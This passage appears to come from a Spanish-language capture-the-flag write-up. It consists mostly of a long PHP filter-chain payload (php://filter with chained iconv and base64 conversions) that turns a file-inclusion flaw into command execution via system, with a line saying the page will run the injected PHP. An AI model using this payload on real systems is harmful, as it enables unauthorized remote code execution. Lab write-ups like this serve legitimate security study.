 ```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp  
```
Cuando nosotros enviemos el payload la pagina interpretara el PHP y ejecutara el comando indicando en **system**

![](/assets/img/quick/8.png)
